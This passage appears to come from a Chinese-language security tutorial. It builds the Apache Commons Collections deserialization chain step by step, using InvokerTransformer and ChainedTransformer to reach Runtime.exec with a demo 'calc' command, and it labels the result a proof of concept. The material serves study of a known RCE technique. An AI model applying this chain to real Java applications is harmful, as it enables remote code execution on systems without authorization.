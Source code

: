 之后再想如何和我们找到的RCE利用点结合。InvokerTransformer，可以命令执行。通过反射调用InvokerTransformer去执行上面实例化Runtime类的命令。

```java
        // 使用 InvokerTransformer 获取 getRuntime 方法
        Method getRuntime = (Method) new InvokerTransformer("getDeclaredMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",null}).transform(Runtime.class); //方法 方法参数类型 参数 类

        // 使用 InvokerTransformer 调用invoke 方法
        Runtime r = (Runtime) new  InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}).transform(getRuntime);

        // 使用 InvokerTransformer 获取 exec 方法
        Method execMethod = (Method) new InvokerTransformer(
                "getDeclaredMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"exec", new Class[]{String.class}}
        ).transform(Runtime.class);

        // 使用 InvokerTransformer 调用 exec 方法
        new InvokerTransformer(
                "invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{r, new Object[]{"calc"}}
        ).transform(execMethod);




        //new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"}).transform(r);
        //这句可以代替上面的两句，因为已经获取到了runtime的实例，直接调用runtime的exec方法就行
```

观察代码发现，我们对InvokerTransformer的调用是一条链，一句的输入是上一句的输出。这里就会用到CC库的ChainedTransformer类（可以熟悉下CC库一些类的功能）

ChainedTransformer的构造方法是public，参数是Transfromer[]（Transfrome数组），所以我们先初始化一个Transfromer数组，再把这个数组放入ChainedTransformer的构造方法参数处。

更新Poc

```java
        Transformer[] transformers = new Transformer[] {
            new InvokerTransformer("getDeclaredMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",null}),
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),
            new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"calc"})
        };

        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);
        chainedTransformer.transform(Runtime.class);
```

之后，开始搜索transform的方法调用，在TransformedMap类中的三个方法都调用了transform方法。
